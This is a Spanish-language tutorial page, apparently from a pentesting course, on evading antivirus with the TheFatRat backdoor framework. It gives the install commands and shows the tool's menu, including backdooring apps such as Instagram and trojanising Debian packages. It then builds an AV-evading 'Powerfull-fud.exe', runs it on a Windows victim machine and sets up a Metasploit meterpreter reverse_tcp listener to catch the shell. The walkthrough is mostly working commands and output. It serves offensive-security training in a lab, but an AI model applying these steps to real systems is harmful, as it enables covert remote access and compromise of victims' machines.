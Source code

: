 ```yaml
---
icon: mouse-field
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión con TheFatRat

Vamos a ver una herramienta que se utiliza para la evasion de defensas super popular que esta en el siguiente repositorio de `GitHub`:

URL = [TheFatRat GitHub](https://github.com/screetsec/TheFatRat)

No viene instalada por defecto en `kali` por lo que tendremos que realizar lo siguiente para instalarla, adelanto que esta herramienta trae varias tecnicas de `frameworks` famosas para la evasion de defensas, por eso es tan famosa:

```shell
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
```

Mientras se esta instalando nos aparecera mas adelante una opcion la cual le daremos al `2`:

```
Select one of the options bellow                                                        
 +-----------------------------------------------------+                           
 | [ 1 ] Setup Backdoor-Factory Path Manually          |                           
 | [ 2 ] Install Backdoor-Factory from Kali Repository |                           
 +-----------------------------------------------------+                           
 
 Option : 2 
```

Despues nos aparecera esta otra opcion le daremos a `ENTER` seguidamente la `y`:

```
Write output directory for fatrat generated files or press enter to default.                              
Default : /root/Fatrat_Generated                                                                                                                                      
Write:                                                                             
 Do you want to create a shortcut for fatrat in your system                        
 so you can run fatrat from anywhere in your terminal and desktop ?                                                                                                   
 Choose y/n : y
```

Y con esto ya tendremos la herramienta instalada de forma correcta.

Ahora para iniciar la aplicacion tendremos que poner lo siguiente:

```shell
sudo fatrat
```

Y esto empezara a realizar los checkeos pertinentes para ver que todo este en orden, una vez realizado todo eso, nos pondra el siguiente mensaje:

```
==================================================================                   
         WARNING !  WARNING ! WARNING ! WARNING ! WARNING !                                
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                         
==================================================================                      
 ____  _____ _____ _____    _____ _____ __    _____ _____ ____                     
|    \|     |   | |_   _|  |  |  |  _  |  |  |     |  _  |    \                    
|  |  |  |  | | | | | |    |  |  |   __|  |__|  |  |     |  |  |                   
|____/|_____|_|___| |_|    |_____|__|  |_____|_____|__|__|____/                    
                         _____ _____                                               
                        |_   _|     |                                              
                          | | |  |  |                                              
                          |_| |_____|                                             
 _____ _____ _____ _____ _____    _____ _____ _____ _____ __                
|  |  |     | __  |  |  |   __|  |_   _|     |_   _|  _  |  |                      
|  |  |-   -|    -|  |  |__   |    | | |  |  | | | |     |  |__                    
 \___/|_____|__|__|_____|_____|    |_| |_____| |_| |__|__|_____|                              
==================================================================                             
       PLEASE DON'T UPLOAD BACKDOOR TO WWW.VIRUSTOTAL.COM                                  
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                    
==================================================================                                                                                                    
Press [Enter] key to continue ..............
```

Aqui nos avisa de que no subamos los binarios a `virustotal` ya que este lo comparte con los diferentes antivirus y asi pueden crear firmas para dicho binario y que despues no sirva para `bypassearlo`, despues de esto le daremos a `ENTER`, despues otra ver `ENTER` se iniciara una base de datos de `postgresql` y por ultimo veremos el menu de la herramienta:

```
resize: Time out occurred                                                                                                                                             
         ____                                                                      
        |    |                                                                     
        |____|                                                                     
       _|____|_       _____ _       _____     _   _____     _                      
        /  ee\_      |_   _| |_ ___|   __|___| |_| __  |___| |_                    
      .<     __O       | | |   | -_|   __| .'|  _|    -| .'|  _|                   
     /\ \.-.' \        |_| |_|_|___|__|  |___|_| |__|__|___|_|                     
    J  \.|'.\/ \                                                                   
    | |_.|. | | |   [--]   Backdoor Creator for Remote Acces [--]                  
     \__.' .|-' /   [--]  Created by: Edo Maland (Screetsec) [--]                  
     L   /|o'--'\   [--]            Version: 1.9.8           [--]                  
     |  /\/\/\   \  [--]          Codename: Target          [--]             
     J /      \.__\ [--]   Follow me on Github: @Screetsec   [--]                  
     J /      \.__\ [--]   Dracos Linux : @dracos-linux.org  [--]                  
     |/         /   [--]                                     [--]                  
       \      .'\.  [--]     SELECT AN OPTION TO BEGIN:      [--]                  
    ____)_/\_(___\. [--] .___________________________________[--]                  
   (___._/  \_.___)'\_.-----------------------------------------/                                                                                                 
        [01]  Create Backdoor with msfvenom                                        
        [02]  Create Fud 100% Backdoor with Fudwin 1.0                             
        [03]  Create Fud Backdoor with Avoid v1.2                                  
        [04]  Create Fud Backdoor with backdoor-factory [embed]                    
        [05]  Backdooring Original apk [Instagram, Line,etc]                       
        [06]  Create Fud Backdoor 1000% with PwnWinds [Excelent]                   
        [07]  Create Backdoor For Office with Microsploit                          
        [08]  Trojan Debian Package For Remote Acces [Trodebi]                     
        [09]  Load/Create auto listeners                                           
        [10]  Jump to msfconsole                                                   
        [11]  Searchsploit                                                        
        [12]  File Pumper [Increase Your Files Size]                          
        [13]  Configure Default Lhost & Lport                                    
        [14]  Cleanup                                                           
        [15]  Help                                                           
        [16]  Credits                                                         
        [17]  Exit                                                                                                                                           
 ┌─[TheFatRat]──[~]─[menu]:           
 └─────►   
```

Por lo que vemos podemos `backdoorizar` un binario de muchas formas en este `framework`, podemos hacerlo de diferentes formas con las diferentes herramientas que nos proporciona, incluso en la opcion `05` podemos ver que podemos generar una aplicacion como `instagram` para que cuando se ejecute, tambien se ejecute un `backdoor` que estara por detras para crearnos una `reverse shell`.

En este caso vamos a probar la opcion `2`, por lo que pondremos `2` y nos llevara a dicha tecnica viendo otras opciones:

```
  _______ ___ ___ ______   ___ ___ ___ ______  
  |   _   |   Y   |   _  \ |   Y   |   |   _  \ 
  |.  1___|.  |   |.  |   \|.  |   |.  |.  |   |
  |.  __) |.  |   |.  |    |. / \  |.  |.  |   |
  |:  |   |:  1   |:  1    |:      |:  |:  |   |
  |::.|   |::.. . |::.. . /|::.|:. |::.|::.|   |
   ---     ------- ------   --- --- --- --- ---   1.0
 
 Select one tool to create your Windows EXE FUD Rat 
 

 [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)
 [ 2 ] - Slow But Powerfull (OLD)
 [ 3 ] - Return to menu

 ┌─[TheFatRat]──[~]─[FUDWIN]:
 └─────► 
```

En este caso podremos seleccionar el nuevo `payload` que ha salido para poder generarlo con `powershell` o podremos utilizar el viejo pero que es muy potente, vamos a darle al numero `2` y esto nos abrira una mini ventana de terminal en el que se nos generara el `payload`.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Despues de poner la `IP` y el puerto, veremos esto otro:

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionaremos la opcion `2` para que nos lo compile en `64 bits`, esto puede tardar un poco, pero cuando haya terminado veremos esto:

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Aqui nos comenta que ya compilo el binario de la `backdoor` pero que lo compilo una segunda vez el original para que este de forma mas ofuscada y el segundo compilado se llama `Powerfull-fud.exe` que es el que vamos a utilizar, nos muestra que esta en la siguiente ruta:

```shell
sudo ls -la /root/Fatrat_Generated
```

Info:

```
total 4528
drwxr-xr-x  2 root root    4096 Feb  8 07:03 .
drwx------ 12 root root    4096 Feb  8 07:03 ..
-rwxr-xr-x  1 root root 2591185 Feb  8 07:03 Powerfull.exe
-rwxr-xr-x  1 root root 2035665 Feb  8 07:03 Powerfull-fud.exe
```

Vemos que efectivamente se creo de forma correcta por lo que vamos a copiarnoslo a nuestro escritorio de `kali`.

```shell
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe ~/Desktop
```

Ahora nos tendremos que pasar ese `binario` a la maquina `WS02` para probarlo a ver si lo detecta o no el `antivirus` hay a veces que lo puede detectar, ya que la forma en que la compila varia dependiendo de cuando lo ejecutes, por lo que hay que tener un poco de suerte tambien, pero vamos a probar a pasarnoslo a nuestra maquina victima `Windows`.

Por lo que vemos si nos lo pasamos a la maquina `Windows` con el `antivirus` activado, no nos lo va a detectar en mi caso, ahora vamos a probar a ejecutarlo, pero antes tendremos que estar a la escucha:

```shell
msfconsole -q
```

Ahora vamos a configurar la escucha:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora que estamos a la escucha, vamos a nuestra maquina victima `windows` y ejecutamos el binario directamente.

Si nos vamos donde tenemos la escucha tendremos que ver una conexion en `metasploit`, si tuvieramos alguna duda, podremos monitorearlo con `Wrireshark` por si vieramos trafico `TCP`, si vemos ese trafico es que se esta realizando la conexion, pero si no lo vemos es por que el binario esta mal formado o no se esta ejecutando de forma correcta.
